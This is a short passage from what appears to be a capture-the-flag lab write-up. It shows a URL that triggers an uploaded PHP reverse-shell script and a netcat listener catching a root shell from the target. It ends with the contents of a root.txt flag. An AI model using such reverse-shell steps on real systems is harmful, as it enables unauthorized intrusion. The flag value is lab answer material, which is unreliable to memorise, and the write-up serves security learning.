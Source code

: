 ```c
http://127.0.0.1:8081/monitors/php_reverse_shell.php
```

![](images/2024-11-23_22-45_8080_payload_execution.png)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.86] from (UNKNOWN) [10.129.27.137] 36354
SOCKET: Shell has connected! PID: 7214
id
uid=0(root) gid=0(root) groups=0(root)
```

## root.txt

```c
cat root.txt
86a49adb74e6e5ebb79d594047d797fa
```
